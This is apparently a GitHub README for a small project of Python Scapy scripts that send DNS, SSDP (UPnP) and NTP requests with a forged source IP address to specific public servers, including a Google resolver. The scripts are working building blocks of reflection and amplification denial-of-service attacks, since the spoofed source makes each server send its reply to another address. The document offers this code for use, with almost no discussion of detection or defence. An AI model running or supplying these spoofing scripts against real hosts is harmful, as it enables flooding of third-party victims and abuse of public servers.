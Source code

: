 # spoofingwithscapy
Some python scripts to spoof requests to services (DNS, UPnP)

## Requirements
```bash
sudo apt-get -y install python-pip
sudo pip install scapy
sudo python
```

## (Spoofed) DNS request

```python
from scapy.all import *
dnsQuery="ddosdb.org"
spoofedIPsrc="130.89.14.205"
dnsResolver1="8.8.8.8"
dnsResolver2="130.89.0.128"

spoofedDNSRequest = IP(src=spoofedIPsrc,dst=dnsResolver1)/UDP()/DNS(rd=1,qd=DNSQR(qname=dnsQuery))

sr1(spoofedDNSRequest)
````

## (Spoofed) SSDP request to discover UPnP devices

```python
from scapy.all import *
spoofedIPsrc="130.89.14.205"
SSDPserver="84.129.203.235"

payload = "M-SEARCH * HTTP/1.1\r\n" \
"HOST:"+SSDPserver+":1900\r\n" \
"ST:upnp:rootdevice\r\n" \
"MAN: \"ssdp:discover\"\r\n" \
"MX:2\r\n\r\n"

ssdpRequest = IP(src=spoofedIPsrc,dst=SSDPserver) / UDP(sport=1900, dport= 1900) / payload
sr1(ssdpRequest)
```

## (Spoofed) NTP request
```python
from scapy.all import *
spoofedIPsrc="130.89.14.205"
aNTPserver="59.188.133.225"
ntpRequest = IP(src=spoofedIPsrc,dst=aNTPserver) / UDP(dport=123,sport=50000)/("\x1b\x00\x00\x00"+"\x00"*11*4)
sr1(ntpRequest)
```
